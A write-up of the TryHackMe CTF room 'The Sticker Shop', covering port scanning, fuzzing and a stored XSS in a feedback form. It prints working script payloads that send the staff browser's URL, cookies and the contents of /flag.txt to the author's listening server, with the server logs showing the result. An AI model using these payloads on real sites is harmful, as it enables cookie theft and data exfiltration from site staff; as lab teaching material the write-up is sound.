


# Write-Up: The Sticker Shop
**Date:** 01/27/2025

**User:** [JAKK](https://tryhackme.com/p/JAKK)

[The Sticker Shop](https://tryhackme.com/r/room/thestickershop) is an easy-ranked CTF box that challenges us to access a flag at a specified location of the web server. It introduces us to a common web vulnerability found in websites, seldom being showcased on TryHackMe.

## Reconaissance

### Port Scan
We start by scanning the target for open ports using *nmap*.
```
nmap -sV -sC -T4 -p0-65535 sticker.thm
```

```
Host is up (0.037s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b2:54:8c:e2:d7:67:ab:8f:90:b3:6f:52:c2:73:37:69 (RSA)
|   256 14:29:ec:36:95:e5:64:49:39:3f:b4:ec:ca:5f:ee:78 (ECDSA)
|_  256 19:eb:1f:c9:67:92:01:61:0c:14:fe:71:4b:0d:50:40 (ED25519)
8080/tcp open  http    Werkzeug httpd 3.0.1 (Python 3.8.10)
|_http-server-header: Werkzeug/3.0.1 Python/3.8.10
|_http-title: Cat Sticker Shop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see two open ports with the web service being offered on `8080`. Let's open the page with a web browser.

### Inspecting the Website


Apart from two buttons and cat images, there is nothing to see.

- We're not able to inspect the `/static/` route or its subfolders, such as `/static/images/`, which contains the image files. The images are sequentially named, i.e. `cat_sticker_1.png`, `cat_sticker_2.png`. The absence of `cat_sticker_3.png` likely tells us that there exist no other images. Since the file format is PNG, no secret information could have been embedded via steganography.
- Inspecting the buttons, we can see that *Home* leads us to `/`, i.e. the position we're currently at, while *Feedback* brings us to `/submit_feedback`. There we find an input form that allows us to submit feedback, which is sent to the same URI via POST.



- If we try to access the flag under the known location (`http://sticker.thm:8080/flag.txt`), we receive the response code `401`, which tells us that we are not authorized to access the page.

### Fuzzing
Let's see if we can find more resources on the server via `gobuster`. Since no domain name is known for the website, we can only enumerate directories, not subdomains. Additionally, we will also look for files with the extensions `.txt`, `.py`, `.bak` and `.sql`, to find potential backups or source code.

```
gobuster dir -u 'http://sticker.thm:8080/' -w '/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt' -x 'txt,py,bak,sql'
```

As a result, we only find the already known path `/flag.txt`.

In general, it's also worth checking if there are any hidden GET or POST parameters being evaluated on the known routes, which can be done via [arjun](https://github.com/s0md3v/Arjun).

```
arjun -u http://sticker.thm:8080/submit_feedback -m POST
[*] Scanning 0/1: http://sticker.thm:8080/submit_feedback
[*] Probing the target for stability
[*] Analysing HTTP response for anomalies
[+] Extracted 1 parameter from response for testing: feedback
[*] Logicforcing the URL endpoint
[!] No parameters were discovered.
```

Unfortunately, no hidden parameter can be found.

## Tampering With the Input Form
When we send feedback via the input form (on `/submit_feedback`), we're being told that the message will be evaluated shortly by the site's staff. It could be possible that the person doing this might use a web browser to access a restricted section of the website, in which case we can try to inject some Javascript code into the staff's rendered webpage by including code in our message. This of course only works if the submitted message isn't sanitized by the server and just handed down. To test this, we will start a simple webserver with Python and see if requests on it are being made.

We start the server with the following command.
```
python -m http.server 9000
```

We then send the following message via the form. The code included in the `<script>` tags prompts an HTTP request to our local server performed by the staff. Depending on the fact if a request is made, we can determine if the XSS attack works.
```
<script>
var req = new XMLHttpRequest();
req.open("GET", "http://10.9.4.33:9000/" + window.location.href, false);
req.send();
</script>
```
And indeed, we can see that the Javascript code of our submitted feedback is executed.
```
Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...
10.10.194.50 - - [27/Jan/2025 10:23:56] code 404, message File not found
10.10.194.50 - - [27/Jan/2025 10:23:56] "GET /http://127.0.0.1:8080/view_feedback HTTP/1.1" 404 -
```
Trying to navigate to the newly found route, `/view_feedback`, doesn't give us more information about the site since authentication is required. But now we can try to elevate the XSS to reach our goal!

Trying the easiest thing, we use the following feedback message to dump the session cookies of the staff. This only works if the creators of the website forgot to set the cookies as HttpOnly, allowing Javascript to access them.
```
<script>
var req = new XMLHttpRequest();
req.open("GET", "http://10.9.4.33:9000/" + document.cookie, false);
req.send();
</script>
```
Unfortunately, we reveive a request on `/`, meaning that the session cookies, if existent, can't be read by our injected code.

But since the staff obviously can access the `/view_feedback` route, which requires authentication, he will likely be able to also access `/flag.txt`. We therefore extend our payload a little bit and let the staff's browser make a request for the flag and then send us its value.

```
<script>
var flag_req = new XMLHttpRequest();
flag_req.open("GET", "/flag.txt", false);
flag_req.send();
var share_req = new XMLHttpRequest();
share_req.open("GET", "http://10.9.4.33:9000/" + flag_req.responseText, false);
share_req.send();
</script>
```

It's important to reference the flag by its relative path, otherwise the payload will not work. This is probably due to CORS rules, preventing the access to the file from outside the domain. Finally, we retrieve the flag from the requested URI that we can inspect on our local server.
```
Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...
10.10.194.50 - - [27/Jan/2025 10:33:07] code 404, message File not found
10.10.194.50 - - [27/Jan/2025 10:33:07] "GET /THM%7B-REDACTED_FLAG-%7D HTTP/1.1" 404 -
```

Note that the string is URL encoded. We can decode it with hURL.
```
hURL -u "THM%7B-REDACTED_FLAG-%7D"
Original    :: THM%7B-REDACTED_FLAG-%7D
URL DEcoded :: THM{-REDACTED_FLAG-}
```

## Conclusion
I really enjoyed this CTF, since XSS attacks are quite rare on TryHackMe and similar platforms, probably due to the necessary user interaction which needs to be emulated. Thanks to TryHackMe user [toxicat0r](https://tryhackme.com/p/toxicat0r) for creating this room.
